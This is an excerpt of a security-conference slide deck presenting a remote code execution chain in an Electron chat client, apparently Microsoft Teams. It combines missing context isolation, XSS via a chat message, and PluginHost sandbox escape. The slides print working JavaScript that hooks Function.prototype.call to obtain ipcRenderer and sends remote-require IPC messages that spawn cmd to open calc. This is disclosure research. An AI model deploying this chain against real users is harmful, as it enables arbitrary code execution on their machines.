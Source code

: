     all bugs aligned!  
    1. Lack of Context Isolation in main window  
    2. XSS via chat message  
    3. JS execution via PluginHost outside sandbox  
    Let's launch calc！ ➡  
    
    [View full-size slide](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/slide_48.jpg)
    
50. [![Steps to reproduce
    1. Attacker creates a page containing the following code
    Function.prototype._call = Function.prototype.call;
    Function.prototype.call = function(...args) {
    if (args[3] && args[3].name === "__webpack_require__") {
    ipc = args[3]('./lib/sandboxed_renderer/api/exports/electron.ts').ipcRenderer;
    }
    return this._call(...args);
    }
    JS code to send IPC follows on the next page......
    ...
    JS code to get reference of ipcRenderer module:](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/preview_slide_49.jpg?26545114)](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/slide_49.jpg?26545114)
    
    Steps to reproduce  
    1. Attacker creates a page containing the following code  
    <br/>Function.prototype._call = Function.prototype.call;<br/>Function.prototype.call = function(...args) {<br/>if (args[3] && args[3].name === "__webpack_require__") {<br/>ipc = args[3]('./lib/sandboxed_renderer/api/exports/electron.ts').ipcRenderer;<br/>}<br/>return this._call(...args);<br/>}<br/>  
    JS code to send IPC follows on the next page......  
    <br/>...<br/>JS code to get reference of ipcRenderer module:<br/>
    
    [View full-size slide](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/slide_49.jpg)
    
51. [![setTimeout(function(){
    ipc.invoke('calling:teams:ipc:initPluginHost',true).then((id)=>{
    objid=ipc.sendToRendererSync(id,'ELECTRON_REMOTE_SERVER_REQUIRE',[[],'slimcore'],'')[0]['id'];
    objid=ipc.sendToRendererSync(id,'ELECTRON_REMOTE_SERVER_MEMBER_GET',[[],objid,'toString',[]],'')[0]['id'];
    objid=ipc.sendToRendererSync(id,'ELECTRON_REMOTE_SERVER_MEMBER_GET',[[],objid,'constructor',[]],'')[0]['id'];
    objid=ipc.sendToRendererSync(id,'ELECTRON_REMOTE_SERVER_FUNCTION_CALL',[[],objid,[{"type":"value","value":
    'a={"type":"pipe","readable":1,"writable":1};b={"file":"cmd","args":["/k","start","calc"],"stdio":[a,a]};
    process.binding("spawn_sync").spawn(b);'}]],'')[0]['id'];
    ipc.sendToRendererSync(id,'ELECTRON_REMOTE_SERVER_FUNCTION_CALL',[[],objid,[{"type":"value","value":""}]],'');
    });
    },2000);
    require('slimcore').toString.constructor('js-code')();
    1. REQUIRE 4. FUNCTION_CALL
    2. MEMBER_GET 3. MEMBER_GET
    5. FUNCTION_CALL
    Above code is for sending IPC to execute the following JS on PluginHost:](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/preview_slide_50.jpg?26545115)](https://files.speakerdeck.com/presentations/822da490117b42cd8a19bc8e2588305e/slide_50.jpg?26545115)
    
